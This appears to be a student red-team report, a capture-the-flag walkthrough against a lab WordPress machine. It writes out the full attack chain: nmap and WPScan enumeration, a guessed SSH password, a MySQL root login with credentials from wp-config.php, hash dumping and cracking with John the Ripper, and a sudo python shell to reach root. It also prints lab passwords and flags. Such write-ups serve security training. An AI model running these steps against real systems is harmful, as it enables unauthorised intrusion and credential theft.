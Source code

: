 # Red Team Summary of Operations - Offensive Report

### Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Netdiscover scan results for possible target machines:

Command: '$ netdiscover -r 192.168.1.90'

![Netdiscover Scan Command](/Images/Day1/netdiscover%20scan%20for%20target%20ip.JPG "Netdiscover Scan Command")

![Netdiscover Scan Results](/Images/Day1/netdiscover%20scan%20for%20target%20ip%202.JPG "Netdiscover Scan Results")

Nmap scan results for each machine reveal the below services and OS details:

Command: `$ nmap -sV 192.168.1.110`

![Nmap scan results](/Images/Day1/nmap%20scan%20of%20exposed%20ports%20and%20services%20on%20target.JPG "Nmap scan results")

This scan identifies ports and services that could potentially be used for entry:

**Target 1**
1. Port 22/TCP 	    Open 	SSH
2. Port 80/TCP 	    Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

### Critical Vulnerabilities
The following vulnerabilities were identified on each target:

**Target 1**
1. User Enumeration (WordPress site)
2. Weak User Password
3. Unsalted User Password Hash (WordPress database)
4. Misconfiguration of User Privileges/Privilege Escalation

### Exploitation
Target 1 was successfully penetrated by the Red Team and the following confidential data was compromised:

**Target 1**
- **Flag1: b9bbcb33ellb80be759c4e844862482d**
![Flag 1](/Images/Day1/ssh%20michael%20find%20first%20flag%203.JPG "Flag 1")
- Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`

![WPScan](/Images/Day1/wpscan%20of%20target.JPG "WPScan")

![WPScan results](/Images/Day1/wpscan%20results.JPG "WPScan results")

- Targeting user Michael
    - Manual "Brute Force" attack to finds Michael’s password
	- Several basic and common passwords were guessed to determine Michael's password
		- Password: michael
    - User password was weak and obvious as expected
- Capturing Flag 1: SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html in a HTML comment below the footer.
    - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`

![SSH Michael](/Images/Day1/ssh%20michael.JPG "SSH Michael")

![SSH Michael Find Flag 1](/Images/Day1/ssh%20michael%20find%20first%20flag.JPG "SSH Michael Find Flag 1")

![SSH Michael navigating folders](/Images/Day1/ssh%20michael%20find%20first%20flag%202.JPG "SSH Michael navigating folders")

![Flag 1](/Images/Day1/ssh%20michael%20find%20first%20flag%203.JPG "Flag 1")

- **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to discover Flag 1.
    - Capturing Flag 2: While using Michael's user access Flag 2 was discovered by navigating through directories and files.
        - Flag 2 was found in /var/www next to the html folder that held Flag 1.
        - Commands:
            - `ssh michael@192.168.1.110` 
            - `pw: michael`
            - `cd ../` 
            - `cd ../`
            - `cd var/www`
            - `ls -l`
            - `cat flag2.txt`

![Flag 2](/Images/Day1/flag%202.JPG "Flag 2")

![Flag 2 File cat](/Images/Day1/flag%202%20(2).JPG "Flag 2 File cat")

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - While using Michael's credentials, the Red Team discovered the wp-config.php file and login credentials that grant access to a database
	- MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

![MySQL login](/Images/Day1/msql%20login.JPG "MySQL login")
![Navigating in MySQL](/Images/Day1/mysql%202.JPG "Navigating MySQL")
![Flag 3 location](/Images/Day1/mysql%20flag%203.JPG "Flag 3 location")

- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - ![wp_users table](/Images/Day1/mysql%20users.JPG "wp_users table")

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - ![John the Ripper results](/Images/Day1/john%20stevens%20hashed%20password.JPG "John the Ripper results")

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls`
                - `cat flag4.txt`

![ssh Steven](/Images/Day1/loggin%20in%20as%20steven%20using%20cracked%20password.JPG "ssh Steven")
![Getting root access as Steven](/Images/Day1/loggin%20in%20as%20steven%20using%20cracked%20password%20and%20getting%20root%20access.JPG "Getting root access as Steven")
![Flag 4 location](/Images/Day1/flag%204.JPG "Flag 4 location")
